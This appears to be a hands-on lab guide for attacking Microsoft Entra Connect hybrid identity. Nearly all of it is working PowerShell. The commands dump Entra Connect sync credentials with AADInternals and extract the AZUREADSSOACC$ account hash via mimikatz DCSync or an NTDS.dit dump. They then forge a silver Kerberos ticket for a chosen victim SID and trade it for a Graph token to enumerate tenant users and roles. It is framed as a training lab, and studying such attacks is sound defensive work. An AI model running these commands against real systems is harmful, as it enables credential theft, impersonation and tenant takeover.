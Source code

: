 ## lab 2 - Entra Connect Attacks
1. **prepare a victim user with high privileges**: in Entra portal (login with your admin tenant creds), select ***user10*** and assign it with the **Application Administrator** role
2. Dumping and Extracting Entra (Azure AD) Connect credentials:
    1. run powershell as admin on the server where Entra Connect is installed
    2. execute:
        ```powershell
        Import-Module AADInternals
        Get-AADIntSyncCredentials
        ```


3. reset password


## 3. Silver Ticket Attack ##
### 1. detect if SSO is enabled:
```powershell
$body = @{
    "username" = "user10@mydomain.onmicrosoft.com"
} | ConvertTo-Json

$response = Invoke-RestMethod -Uri "https://login.microsoftonline.com/common/GetCredentialType" -Method Post -Body $body -ContentType "application/json"
$response
```

Set the domain:
```powershell
$domain = "MYDOMAIN" # change to your domain name WITHOUT the ".onmicrosoft.com" part 
```

### 2. get AZUREADSSOACC computer account's hash:
```powershell
# Option 1: Get-ADReplAccount
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain $domain -Server dcvm # take the "NTHash" part

# Option 2: mimikatz
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$"
    
# Option 3: Dump NTDS.dit and registry:
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
# Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.

# use DSInternals
Import-Module DSInternals

# Get the Boot key
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'

# Get the password hash of AZUREADSSOACC
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex
# remote the empy spaces and keep the hash
```

Set the hash:
```powershell
$hash = "CHANGEME"
```
### 3. Find victim user to impersonate
1. option 1:
    ```powershell
    # Option 1: query Entra + get roles
    Import-Module AzureAD
    Connect-AzureAD # use the dumped Entra Connect creds
    # list users with roles
    Get-AzureADUser -All $true | Where-Object { $_.OnPremisesSecurityIdentifier -ne $null } | ForEach-Object { $user = $_; Get-AzureADDirectoryRole | ForEach-Object { Get-AzureADDirectoryRoleMember -ObjectId $_.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='Role';Expression={$_.DisplayName}} } } | Format-Table -Wrap -AutoSize


    # Option 2: query AD (w/o getting Entra roles)
    Get-ADReplAccount -SamAccountName 'victim' -Domain $domain -Server dcvm
    ```

Set the victim user's SID:
```powershell
$victimUserSid = "S-1-5-21-CHANGEME" # set the sid of the user you wish to impersonate
```

### 4. Perform the attack
```powershell
$fullyQualifiedDomain = "$domain.onmicrosoft.com" # change to your domain name

# generate kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString $victimUserSid -Hash $hash

# get an access token for that user
$at =Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain $fullyQualifiedDomain


# start exploring using MS Graph API!
$MaximumFunctionCount = 8192 # bypass powershell's scope memory limit
Import-Module Microsoft.Graph.Users
$securedAT = ConvertTo-SecureString $at -AsPlainText -Force
Connect-MgGraph -AccessToken $securedAT

Get-MgUser
#Readme: https://aka.ms/graph/sdk/powershell
#SDK Docs: https://aka.ms/graph/sdk/powershell/docs
#API Docs: https://aka.ms/graph/docs



## MORE FUN
# Get all users in the tenant
$users = Get-MgUser -All

# Initialize an array to store the results
$results = @()

foreach ($user in $users) {
    # Get the roles assigned to the user (App Roles and Directory Roles)
    $appRoles = Get-MgUserAppRoleAssignment -UserId $user.Id -ErrorAction SilentlyContinue
    $directoryRoles = Get-MgUserMemberOf -UserId $user.Id -ErrorAction SilentlyContinue | Where-Object {$_.AdditionalProperties['@odata.type'] -eq '#microsoft.graph.directoryRole'}
    
    # Compile each role into a formatted object
    foreach ($role in $appRoles) {
        $results += [pscustomobject]@{
            UserPrincipalName = $user.UserPrincipalName
            DisplayName       = $user.DisplayName
            RoleType          = "App Role"
            RoleName          = $role.DisplayName
        }
    }
    
    foreach ($role in $directoryRoles) {
        $results += [pscustomobject]@{
            UserPrincipalName = $user.UserPrincipalName
            DisplayName       = $user.DisplayName
            RoleType          = "Directory Role"
            RoleName          = $role.DisplayName
        }
    }
}

# Output the results
$results | Format-Table -AutoSize
```